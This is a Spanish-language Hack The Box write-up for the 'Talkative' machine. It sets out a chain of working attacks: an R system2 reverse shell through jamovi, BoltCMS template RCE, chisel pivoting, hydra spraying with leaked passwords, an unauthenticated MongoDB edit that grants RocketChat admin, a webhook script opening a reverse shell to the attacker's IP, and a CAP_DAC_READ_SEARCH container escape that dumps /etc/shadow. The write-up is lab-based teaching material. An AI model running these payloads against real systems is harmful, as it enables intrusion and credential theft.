


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Talkative Writeup | Hard"
date = "2024-08-06"
description = ""
tags = [
    "HackTheBox",
    "Talkative",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTML Injection",
    "Abusing Rj Editor",
    "Abusing Jamovi",
    "Docker Breakout",
    "Escaping Docker",
    "Information Leakage",
    "Weaponizing BoltCMS",
    "Discovering Internal Hosts",
    "Internal Hosts Enumeration",
    "Reverse Port Forwarding",
    "Password Spraying",
    "Docker Enumeration",
    "Container Discovering",
    "MongoDB Enumeration",
    "Weaponizing RocketChat",
    "CDK",
    "Exploiting CAP_DAC_READ_SEARCH with CDK",
    "Exploiting CAP_DAC_READ_SEARCH manually (shocker.c)"
]

+++

# Hack The Box: Talkative Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Talkative"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
# TCP Enumeration

```shell
$ rustscan -a 10.129.222.158 --ulimit 5000 -g
10.129.222.158 -> [80,8080,8081,8082]
```

```shell
$ nmap -p80,8080,8081,8082 -sCV 10.129.222.158 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 20:02 CEST
Nmap scan report for 10.129.222.158
Host is up (0.037s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Debian)
|_http-title: Did not follow redirect to http://talkative.htb
8080/tcp open  http    Tornado httpd 5.0
|_http-title: jamovi
|_http-server-header: TornadoServer/5.0
8081/tcp open  http    Tornado httpd 5.0
|_http-server-header: TornadoServer/5.0
|_http-title: 404: Not Found
8082/tcp open  http    Tornado httpd 5.0
|_http-server-header: TornadoServer/5.0
|_http-title: 404: Not Found
Service Info: Host: 172.17.0.15

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.91 seconds
```

# UDP Enumeration

```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.222.158 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 20:03 CEST
Nmap scan report for 10.129.222.158
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
959/udp   closed unknown
1060/udp  closed polestar
21566/udp closed unknown
23585/udp closed unknown
34433/udp closed unknown
41058/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

# HTTP Enumeration
Encontramos un dominio, `talkative.htb` y detectamos 4 servicios web.
`80/TCP` , `8080/TCP` , `8081/TCP` , `8082/TCP`

Enumerando los servicios HTTP podemos encontrar varios posibles usuarios.
- Matt Williams
- Janit Smith
- Saul Goodman

## HTML Injection
Encuentro este punto que es vulnerable a inyección HTML. Pero no he conseguido cargar scripts maliciosos, me lo apunto por si mas adelante hace falta.


Tambien fuzzeando parece que tiene una especie de Rate Limiter por lo cual hace mas complicado el reconocimiento.

También encontramos un formulario, que tras inspeccionar el código no he visto la etiqueta `<form>` , al intentar enviarlo salta lo siguiente.


En la página se ofrecen servicios de mensajería, SMS, chat...
Por lo cual voy a apuntarme los correos electrónicos por si los necesito.

## Discovering BoltCMS
Analizando las cabeceras encontramos que probablemente exista un BoltCMS detrás. Y además encontrado un recurso `/api/docs.json` que nos muestra varios endpoints.


Probando algunas rutas de estos endpoints, fui redireccionado al panel de BoltCMS


Existen varias vulnerabilidades asociadas a BoltCMS. Por lo cual probablemente tenga que buscar la forma de poder iniciar sesión.


## Abusing Jamovi | Container  1 Foothold
Vemos por el puerto 8080 un servicio `jamovi` el cual tiene una vulnerabilidad XSS asociada, y casualmente el mensaje de "bienvenida" es realizando un aviso de seguridad. Revisando el [CVE-2021-28079](https://github.com/theart42/cves/blob/master/CVE-2021-28079/CVE-2021-28079.md) vemos que este XSS se basa en la explotación de un fallo en ElectronJS, por lo cual podríamos fabricar un document .omv que contenta un payload y cuando sea abierto por la víctima, podremos conseguir ejecución de comandos. 


Re-leyendo los mensajes de la página principal, quiero pensar que van por aquí los tiros.


Podemos ver incluso la raíz del sistema de la máquina que está hosteando esta instancia de jamovi.


Aunque esta instancia tiene instalado el módulo `Rj - Editor` por lo cual podemos ejecutar código en `R`


[En este post](https://www.r-bloggers.com/2021/09/how-to-use-system-commands-in-your-r-script-or-package) podemos ver como ejecutar comandos a nivel de sistema en `R`


Nos podemos poner en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y con el siguiente payload ganar acceso
```R
system2("echo", "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjkxLzQ0MyAwPiYx|base64 -d|bash", stdout = TRUE, stderr = TRUE)
```

Y podemos ver que ganamos acceso como `root` a un contenedor.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.222.158] 56386
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# ip a
ip a
bash: ip: command not found
root@b06821bbda78:/# ifconfig
ifconfig
bash: ifconfig: command not found
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

## Information Leakage

Encontramos en el directorio `/root` un archivo `bolt-administration.omv`


```shell
root@b06821bbda78:~# ls -la
ls -la
total 32
drwx------ 1 root root 4096 Mar  7  2022 .
drwxr-xr-x 1 root root 4096 Mar  7  2022 ..
lrwxrwxrwx 1 root root    9 Mar  7  2022 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Aug  6 16:47 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root 4096 Aug  6 16:45 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
```

Nos podemos pasar este archivo a nuestra máquina codificándolo en base64 y en nuestra máquina decodificándolo y luego con `md5sum` comprobar la integridad del archivo

```shell
root@b06821bbda78:~# md5sum bolt*
md5sum bolt*
89a471297760280c51d7a48246f95628  bolt-administration.omv
```

```shell
$ md5sum bolt-administration.omv 
89a471297760280c51d7a48246f95628  bolt-administration.omv
```

Con `file` nos reporta que es un archivo JAR

Por lo cual podemos descomprimirlo y echarle un vistazo
```shell
$ unzip bolt-administration.omv
Archive:  bolt-administration.omv
  inflating: META-INF/MANIFEST.MF    
  inflating: meta                    
  inflating: index.html              
  inflating: metadata.json           
  inflating: xdata.json              
  inflating: data.bin                
  inflating: 01 empty/analysis
```

Encontramos un archivo `xdata.json`
```json
{
  "A": {
    "labels": [
      [
        0,
        "Username",
        "Username",
        false
      ],
      [
        1,
        "matt@talkative.htb",
        "matt@talkative.htb",
        false
      ],
      [
        2,
        "janit@talkative.htb",
        "janit@talkative.htb",
        false
      ],
      [
        3,
        "saul@talkative.htb",
        "saul@talkative.htb",
        false
      ]
    ]
  },
  "B": {
    "labels": [
      [
        0,
        "Password",
        "Password",
        false
      ],
      [
        1,
        "jeO09ufhWD<s",
        "jeO09ufhWD<s",
        false
      ],
      [
        2,
        "bZ89h}V<S_DA",
        "bZ89h}V<S_DA",
        false
      ],
      [
        3,
        ")SQWGm>9KHEA",
        ")SQWGm>9KHEA",
        false
      ]
    ]
  },
  "C": {
    "labels": []
  }
}
```

## Abusing BoltCMS | Docker Container 2
Ahora que tenemos credenciales podemos intentar iniciar sesión en el BoltCMS


Probando con `admin:bZ89h}V<S_DA` consigo iniciar sesión.
Siguiendo este artículo de [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/bolt-cms)

Puedo fijarme en el tema actual que esté en uso, e intentar editarlo para siguiendo el formato en .twig, ejecutar comandos en el sistema de forma remota.

El tema es `base-2021`


Editamos la plantilla y añadimos nuestro payload..


**Ahora nos dirigimos a Maintenance -> Clear the Cache**

Y si nos ponemos en escucha con `netcat` y recargamos la página inicial...
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.222.158] 44350
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@6d4489211cb5:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
www-data@6d4489211cb5:/var/www/talkative.htb/bolt/public$
```

En esta máquina no encontramos nada importante, además que no consigo escalar a `root`

## Escaping the Container | Network Reconnaissance
Podemos hacer un one-liner en bash para escanear nuestro entorno
```shell
for i in {1..254}; do timeout 1 bash -c "echo >/dev/tcp/172.17.0.$i/80" 2>/dev/null && echo "Host 172.17.0.$i is up"; done
```

Nos reporta una gran lista.

```shell
Host 172.17.0.1 is up
Host 172.17.0.2 is up
Host 172.17.0.3 is up
Host 172.17.0.4 is up
Host 172.17.0.5 is up
Host 172.17.0.6 is up
Host 172.17.0.7 is up
Host 172.17.0.8 is up
Host 172.17.0.9 is up
Host 172.17.0.10 is up
Host 172.17.0.11 is up

Host 172.17.0.12 is up
Host 172.17.0.13 is up
Host 172.17.0.14 is up
Host 172.17.0.15 is up
Host 172.17.0.16 is up
Host 172.17.0.17 is up
Host 172.17.0.18 is up
Host 172.17.0.19 is up
```

Podemos crearnos un pequeño escáner de puertos.
```shell
#!/usr/bin/env bash
IP="$1"; for port in $(seq 1 65535); do (echo '.' >/dev/tcp/$IP/$port && echo "OPEN: $port" &) 2>/dev/null; done
```

(Estoy utilizando `pwncat-cs` de ahí el formato de la shell)
```shell
(remote) www-data@6d4489211cb5:/tmp$ ./portscan.sh 172.17.0.1
OPEN: 22
OPEN: 80
OPEN: 6000
OPEN: 6001
OPEN: 6002
OPEN: 6003
OPEN: 6004
OPEN: 6005
OPEN: 6006
OPEN: 6007
OPEN: 6008
OPEN: 6009
OPEN: 6010
OPEN: 6011
OPEN: 6012
OPEN: 6013
OPEN: 6014
OPEN: 6015
OPEN: 8080
OPEN: 8081
OPEN: 8082
```

Vemos que está abierto el puerto 22/TCP (SSH) cosa que no está de forma externa en la máquina 172.17.0.1, que supongo que será la máquina víctima.

## Reverse Port Forwarding
Para trabajar de forma cómoda y poder utilizar `hydra` para hacer un ataque por diccionario. Voy a utilizar `chisel` para hacer reverse port-forwarding.

 Para ello, con `pwncat-cs` (lo estoy probando :) ) nos compartimos el `chisel`

En nuestro equipo nos ponemos en escucha con `chisel` por el puerto `1234`
```shell
$ sudo /opt/chisel/chisel server --reverse -p 1234
```

**Importante tener permisos de `root` para esto ya que vamos a utilizar el puerto local 22, y para ello se necesita permisos de superusuario (hasta el puerto 1024)**

Ahora en la máquina víctima..
```shell
(remote) www-data@6d4489211cb5:/tmp$ ./chisel client 10.10.14.91:1234 R:22:172.17.0.1:22
```

Ahora podemos comprobar en nuestra máquina de atacante, que nuestro puerto local 22 es el puerto 22 de la máquina 172.17.0.1.
```shell
$ nmap -p22 127.0.0.1 -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 21:56 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00020s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9c:86:6a:02:bf:45:06:52:6c:29:1d:a0:4e:9e:4a:df (RSA)
|   256 98:3e:0d:0c:17:d3:2d:98:5f:a2:89:0c:b6:22:9b:33 (ECDSA)
|_  256 03:51:c3:e8:7a:b3:6e:c6:0c:67:50:ef:b0:b4:e0:37 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Foothold
Ahora con `hydra` podemos hacer un ataque por diccionario y...
```shell
$ hydra -L users.txt -P passwords.txt 127.0.0.1 ssh -t 4 -I -V
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-06 21:57:55
[DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
[DATA] attacking ssh://127.0.0.1:22/
[ATTEMPT] target 127.0.0.1 - login "janit" - pass "jeO09ufhWD<s" - 1 of 21 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "janit" - pass "bZ89h}V<S_DA" - 2 of 21 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "janit" - pass ")SQWGm>9KHEA" - 3 of 21 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "saul" - pass "jeO09ufhWD<s" - 4 of 21 [child 3] (0/0)
[22][ssh] host: 127.0.0.1   login: saul   password: jeO09ufhWD<s
```

Podemos iniciar sesión en la máquina víctima utilizando el combo ``saul:jeO09ufhWD<s`.

```shell
$ sshpass -p 'jeO09ufhWD<s' ssh saul@127.0.0.1
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 06 Aug 2024 06:01:21 PM UTC

  System load:                      0.0
  Usage of /:                       73.2% of 8.80GB
  Memory usage:                     56%
  Swap usage:                       30%
  Processes:                        391
  Users logged in:                  0
  IPv4 address for br-ea74c394a147: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.222.158
  IPv6 address for eth0:            dead:beef::250:56ff:fe94:f20


18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug  6 18:01:02 2024 from 172.17.0.15
saul@talkative:~$ whoami
saul
```
Recordad que tenemos que iniciar sesión contra la 127.0.0.1:22 ya que por el reverse port-forwarding, este puerto corresponde al puerto 22 de la máquina 172.17.0.1 cuyo servicio SSH no estaba expuesto hacia el exterior.

```shell
saul@talkative:~$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.222.158  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:fe94:f20  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:f20  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:0f:20  txqueuelen 1000  (Ethernet)
        RX packets 146752  bytes 24721297 (24.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 119348  bytes 68665418 (68.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Podemos comprobar que estamos en la máquina víctima.

```shell
saul@talkative:~$ cat user.txt
56a0d2ba1f6e9e72...
```
Y ya podríamos ver la flag..

# Privilege Escalation

```shell
saul@talkative:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash
```

Somos el único usuario en el sistema a parte de `root` , así que supongo que no va a ser necesario migrar de usuario para conseguir la escalada de privilegios.

Una cosa curiosa, es que hay muchas interfaces de red sobre Docker. Así que podríamos intentar enumerar los servicios de docker a ver si encontramos algún contenedor interesante.

Primero vamos a detectar que hosts están activos en el Docker

```shell
for i in {1..254}; do ping -c 1 -W 1 172.17.0.$i &> /dev/null && echo "Host 172.17.0.$i is up"; done

Host 172.17.0.1 is up
Host 172.17.0.2 is up
Host 172.17.0.3 is up
Host 172.17.0.4 is up
Host 172.17.0.5 is up
Host 172.17.0.6 is up
Host 172.17.0.7 is up
Host 172.17.0.8 is up
Host 172.17.0.9 is up
Host 172.17.0.10 is up
Host 172.17.0.11 is up
Host 172.17.0.12 is up
Host 172.17.0.13 is up
Host 172.17.0.14 is up
Host 172.17.0.15 is up
Host 172.17.0.16 is up
Host 172.17.0.17 is up
Host 172.17.0.18 is up
Host 172.17.0.19 is up
```

Y todos son los hosts que habíamos detectado anteriormente. Como son bastantes, voy a ir enumerando que puertos tienen abiertos uno a uno. (Excepto el 172.17.0.1 ya que es la máquina víctima)

Me interesa este puerto, ya que suele pertenecer a una base de datos `MongoDB` , en muchas de estas base de datos puedes hacer consultas sin necesidad de estar autenticado.
```shell
saul@talkative:/tmp$ ./portscan.sh 172.17.0.2
OPEN: 27017
```

La otra mayoría de máquinas tienen solo abierto el puerto 80 y no contiene nada al hacer un `curl`

## Reverse Port Forwarding
Así que para analizar este puerto mas a fondo, vamos a hacer otro reverse port-forwarding.

Pero esta vez no necesitamos `chisel` ya que tenemos la conexión por SSH.

Esta vez, el port-forwarding no lo va a empezar la máquina dentro del contendor, si no la máquina anfitriona, ya que queremos exponer el puerto 27017 de un contenedor hacia nuestra máquina.

No sé si se entenderá pero os dejo un pequeño esquema.


Hacemos el port-forwarding..
```shell
$ sshpass -p 'jeO09ufhWD<s' ssh -L 127.0.0.1:27017:172.17.0.2:27017 saul@127.0.0.1
```

Y vemos que efectivamente, este servicio corresponde a una base de datos `MongoDB`
```shell
$ nmap -p 27017 127.0.0.1 -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 22:20 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00018s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 4.0.26 4.0.26
...
```

## Enumerating MongoDB
Ahora podemos instalar `mongosh`, he tomado de referencia esta [publicación](https://gainsec.com/2022/01/28/mongodb-cli-client-kali-linux/)

```shell
$ mongosh mongodb://127.0.0.1:27017
Current Mongosh Log ID:	66b286cfb47184f885838725
Connecting to:		mongodb://127.0.0.1:27017/?directConnection=true&serverSelectionTimeoutMS=2000&appName=mongosh+2.2.15
Using MongoDB:		4.0.26
Using Mongosh:		2.2.15

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-08-06T16:01:00.220+0000: 
   2024-08-06T16:01:00.220+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2024-08-06T16:01:00.220+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-08-06T16:01:01.206+0000: 
   2024-08-06T16:01:01.207+0000: ** WARNING: Access control is not enabled for the database.
   2024-08-06T16:01:01.207+0000: **          Read and write access to data and configuration is unrestricted.
   2024-08-06T16:01:01.207+0000:
------

rs0 [direct: primary] test>
```
Y sin necesidad de autenticarnos, podemos enumerar la base de datos.

Vemos que hay tablas asociadas a una aplicación llamada `rocketchat` . De esta aplicación se hablaba en la página principal, además, `rocketchat` utiliza `meteor.js`, bonito juego de palabras...
```
rs0 [direct: primary] test> show databases
admin   104.00 KiB
config  124.00 KiB
local    11.37 MiB
meteor    4.64 MiB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> show collections
_raix_push_app_tokens
_raix_push_notifications
instances
meteor_accounts_loginServiceConfiguration
meteor_oauth_pendingCredentials
meteor_oauth_pendingRequestTokens
migrations
rocketchat__trash
rocketchat_apps
rocketchat_apps_logs
rocketchat_apps_persistence
rocketchat_avatars
rocketchat_avatars.chunks
rocketchat_avatars.files
rocketchat_credential_tokens
rocketchat_cron_history
rocketchat_custom_emoji
rocketchat_custom_sounds
rocketchat_custom_user_status
rocketchat_export_operations
rocketchat_federation_dns_cache
rocketchat_federation_keys
rocketchat_federation_room_events
rocketchat_federation_servers
rocketchat_import
rocketchat_integration_history
rocketchat_integrations
rocketchat_invites
rocketchat_livechat_agent_activity
rocketchat_livechat_custom_field
rocketchat_livechat_department
rocketchat_livechat_department_agents
rocketchat_livechat_external_message
rocketchat_livechat_inquiry
rocketchat_livechat_office_hour
rocketchat_livechat_page_visited
rocketchat_livechat_trigger
rocketchat_livechat_visitor
rocketchat_message
rocketchat_message_read_receipt
rocketchat_oauth_apps
rocketchat_oembed_cache
rocketchat_permissions
rocketchat_reports
rocketchat_roles
rocketchat_room
rocketchat_sessions
rocketchat_settings
rocketchat_smarsh_history
rocketchat_statistics
rocketchat_subscription
rocketchat_uploads
rocketchat_user_data_files
rocketchat_webdav_accounts
ufsTokens
users
usersSessions
view_livechat_queue_status                 [view]
system.views
rs0 [direct: primary] meteor>
```

## Creating RocketChat admin Account
Vale, ahora podría modificar la base de datos de `rocketchat` para poder crear una cuenta de administrador, o intentar crackear los hashes de usuarios pero... una pregunta... ¿Dónde está este `rocketchat`?

Después de volverme loco un rato, escaneé otra vez los puertos por TCP y...


Supongo que realicé el escaneo inicial de puertos demasiado rápido y no dejé tiempo a iniciar la máquina.


`db.users.find()`
```json
[
  {
    "_id": "rocket.cat",
    "createdAt": ISODate("2021-08-10T19:44:00.224Z"),
    "avatarOrigin": "local",
    "name": "Rocket.Cat",
    "username": "rocket.cat",
    "status": "online",
    "statusDefault": "online",
    "utcOffset": 0,
    "active": true,
    "type": "bot",
    "_updatedAt": ISODate("2021-08-10T19:44:00.615Z"),
    "roles": [ "bot" ]
  },
  {
    "_id": "ZLMid6a4h5YEosPQi",
    "createdAt": ISODate("2021-08-10T19:49:48.673Z"),
    "services": {
      "password": {
        "bcrypt": "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y"
      },
      "email": {
        "verificationTokens": [
          {
            "token": "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w",
            "address": "saul@talkative.htb",
            "when": ISODate("2021-08-10T19:49:48.738Z")
          }
        ]
      },
      "resume": { loginTokens: [] }
    },
    "emails": [ { address: "saul@talkative.htb", verified: false } ],
    "type": "user",
    "status": "offline",
    "active": true,
    "_updatedAt": ISODate("2024-08-06T16:12:04.633Z"),
    "roles": [ "admin" ],
    "name": "Saul Goodman",
    "lastLogin": ISODate("2022-03-15T17:06:56.543Z"),
    "statusConnection": "offline",
    "username": "admin",
    "utcOffset": 0
  }
]
```

Antes que ponerme a crackear los hashes, hay una cuenta `rocket.cat` que tiene el rol de `bot`. Lo tendré en cuenta.

Y para qué romper el hash si puedo crearme una cuenta de administrador ya que controlo la base de datos.

Primero nos creamos una cuenta de usuario..


Y ahora podemos comprobar en la base de datos que se ha creado mi cuenta correctamente.

```
emails: [ { address: "pointed@talkative.htb", verified: false } ],
    type: "user",
    status: "online",
    active: true,
    _updatedAt: ISODate("2024-08-06T18:38:40.311Z"),
    roles: [ "user" ],
    name: "pointed",
    lastLogin: ISODate("2024-08-06T18:38:36.002Z"),
    statusConnection: "online",
    utcOffset: 2,
    username: "pointed"
```

Y ahora solo habría que cambiar el cambio `roles` y añadir `admin` que es lo que tiene el usuario `saul`. Quiero pensar que así me convertiré en administrador de este servicio.

```js
db.users.update({"_id": "7i6rDHBTt3DLyLLjF"}, { $set: { "roles" : ["admin"]}})
```


Asignamos el rol de `admin` a mi ID de usuario.
Ahora podemos comprobar que esto a funcionado, aunque vemos el campo `modifiedCount: 1` nunca está de mas comprobarlo.

```
...
emails: [ { address: 'pointed@talkative.htb', verified: false } ],
    type: 'user',
    status: 'online',
    active: true,
    _updatedAt: ISODate('2024-08-06T18:38:40.311Z'),
    roles: [ 'admin' ],
    name: 'pointed',
    lastLogin: ISODate('2024-08-06T18:38:36.002Z'),
    statusConnection: 'online',
    utcOffset: 2,
    username: 'pointed'
...
```

Y ahora podemos acceder al recurso `/admin` así que esto a funcionado.


## Foothold in Container 3
Ahora, siguiendo [este post de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/rocket-chat) podemos conseguir RCE creando un WebHook y estableciendo un script malicioso que se ejecutará en la máquina víctima.

Nos dirigimos a `Integrations` -> `New Integration` -> `Incoming WebHook`

Rellenamos los datos que se nos pide.

Y en el apartado de `Script Enabled` , seleccionamos `True` y establecemos el script que se ejecutará cuando se reciba una petición al WebHook.

```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.91/443 0>&1'")
```

Le damos a `Save changes`.
Y se nos genera una URL para poder utilizar el webhook que hemos creado.


Ahora si nos ponemos en escucha por el puerto 443.
```shell
$ sudo pwncat-cs -lp 443
```

Y en el navegador abrimos la URL que nos ha dado `(http://talkative.htb:3000/hooks/MKurWc9BYP8GQvs6v/F9cdMw7hYiRYBH7A75cpehnkszDJnYo7AbsAkQdvHtWgAjEf)`

Vemos que recibimos la sesión.
```
[22:47:55] received connection from 10.129.222.158:60628                        bind.py:84
[22:47:57] 10.129.222.158:60628: registered new host w/ db
```

```shell
(remote) root@c150397ccd63:/app/bundle/programs/server# whoami
root
(remote) root@c150397ccd63:/app/bundle/programs/server# hostname -I
172.17.0.3
```

Vamos a subir el `linpeas.sh` ya que no encuentro nada interesante en este contenedor, ningún archivo, ni credencial...
```(local) pwncat$ upload /opt/peas/linpeas.sh /tmp/linpeas.sh
/tmp/linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 862.8/862.8 KB • ? • 0:00:00
[22:54:10] uploaded 862.78KiB in 2.27 seconds
```


No encuentro nada interesante.
Así que vamos a ejecutar [cdk](https://github.com/cdk-team/CDK) , una herramienta para enumerar vías para escalar privilegios en contenedores docker.

Subimos el `cdk` al contenedor..
```
(local) pwncat$ upload cdk /tmp/cdk
/tmp/cdk ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 12.0/12.0 MB • 2.3 MB/s • 0:00:00
[23:03:22] uploaded 12.02MiB in 6.39 seconds
```

Con `cdk` realizamos un escaneo inicial, a ver si detecta algo.
`(remote) root@c150397ccd63:/tmp# ./cdk evaluate --full`

¡Y encontramos algo!


Tenemos una capability, `CAP_DAC_READ_SEARCH` con la cual podríamos leer archivos de la máquina anfitriona.
`cdk` nos aconseja que podríamos leer los archivos del host utilizando `cdk run cap-dac-read-search`

```shell
./cdk run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
